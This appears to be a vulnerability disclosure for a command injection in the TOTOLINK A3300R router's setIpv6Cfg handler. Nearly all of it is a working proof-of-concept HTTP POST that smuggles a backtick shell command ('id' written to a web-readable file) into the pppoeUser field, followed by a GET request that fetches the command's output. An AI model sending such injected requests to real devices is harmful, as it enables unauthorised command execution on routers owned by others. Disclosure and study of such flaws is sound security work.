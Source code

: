 #  A3300R setIpv6Cfg Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `pppoeUser` or `pppoePass` parameter are vulnerable to command injection when processing the `setIpv6Cfg` request.

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 238
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"dnsAutoFake":"1","lanAutoFake":"1","wanDhcp":"2","wanPriv":"0","lanRadvFake":"1","lanDhcp":"1","pppoeUser":"yy`id>/web/16.txt`","pppoePass":"1234","pppoeServiceName":"","pppoeMtu":"1492","service":"pppoe6","topicurl":"setIpv6Cfg"}
```

![image-20241211131726200](16.assets/image-20241211131726200.png)

```
GET /16.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211131759810](16.assets/image-20241211131759810.png)
